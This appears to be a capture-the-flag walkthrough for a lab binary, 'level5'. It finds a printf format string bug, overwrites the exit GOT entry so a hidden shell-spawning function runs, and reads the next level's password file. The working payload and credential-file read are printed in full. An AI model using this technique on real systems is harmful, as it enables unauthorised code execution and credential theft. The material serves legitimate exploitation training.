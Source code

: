 # 🚀 Level 5 - Walkthrough
## 🧪 First Step - Testing the Program
```bash
$ ./level5
coucou
coucou
```
- 🧾 The program waits for input and prints it back.

## 🐞 Start it in GDB
```bash
(gdb-peda)$ pdisas main
Dump of assembler code for function main:
0x0804850a <+6>:	call   0x80484c2 <n>
- 🔍 The main function calls n.

```bash
(gdb-peda)$ pdisas n
...
0x080484f3 <+49>:	call   0x8048380 <printf@plt>
...
```
- 🧩 fgets reads input into a local buffer.
- 📢 printf prints it without a format string → format string vulnerability!
- ❌ After that, exit() is called.

## 🕵️ Investigate Further - Look at All Functions
```bash
(gdb-peda)$ info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
```
## 🧪 o() is never called. Let’s see what it does:

```bash
(gdb-peda)$ pdisas o
0x080484b1 <+13>:	call   0x80483b0 <system@plt>
```
- 🧨 It calls system("/bin/sh") and exits — this is our target!

## 🔍 Discover Buffer Position in Stack
```bash
$ python -c 'print "BBBB"+" %x"*5' | ./level5
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
- 🧮 Our input BBBB is at the 4th position → %4$n

## 🎯 Plan: Overwrite GOT Entry of exit with Address of o
### Get Addresses
```bash
(gdb-peda)$ x/i 0x080483d0
0x80483d0 <exit@plt>: jmp DWORD PTR ds:0x8049838
```
- ✅ exit@plt resolves to address in GOT: 0x08049838

```bash
(gdb-peda)$ info function o
0x080484a4  o
```
- ✅ Address of o: 0x080484a4 (decimal: 134513828)

## 🛠 Build the Payload
Write the address 0x080484a4 to 0x08049838 using %n

```bash
$ python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")' | ./level5
```
## ✅ Final Step - Trigger Shell and Read Password
```bash
$ (python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")'; cat -) | ./level5
whoami
level6
cat ~level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
- 🎉 Done!

